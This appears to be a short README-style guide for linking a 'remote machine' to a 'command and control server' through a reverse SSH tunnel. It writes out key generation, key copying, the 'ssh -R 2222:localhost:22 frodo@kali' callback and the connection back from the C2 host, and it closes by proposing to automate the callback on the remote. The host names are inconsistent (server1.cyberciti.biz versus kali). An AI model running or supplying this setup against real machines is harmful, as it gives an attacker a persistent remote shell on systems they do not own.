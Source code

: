 
On the remote machine create an entry in the hosts file for the command and control server.  


On the remote machine you want to connect to the command and control server generate the rsa key pair.

> ssh-keygen -t rsa -b 4096

Create an account on the command and control server that matches the user you created the key for. Then copy the key to the command and control server from the remote machine. use the login of the command and control server to do this.  

> ssh-copy-id -i $HOME/.ssh/id_rsa.pub user@server1.cyberciti.biz

Now test ssh to the command and control server.

> ssh frodo@kali

On the remote test the reverse ssh. The user is the user from the command and control server.

> ssh -R 2222:localhost:22 frodo@kali -i /home/kali/.ssh/id_rsa

On the command and control server.

> ssh -p 2222 kali@localhost

If this works next we want to automate on the remote.

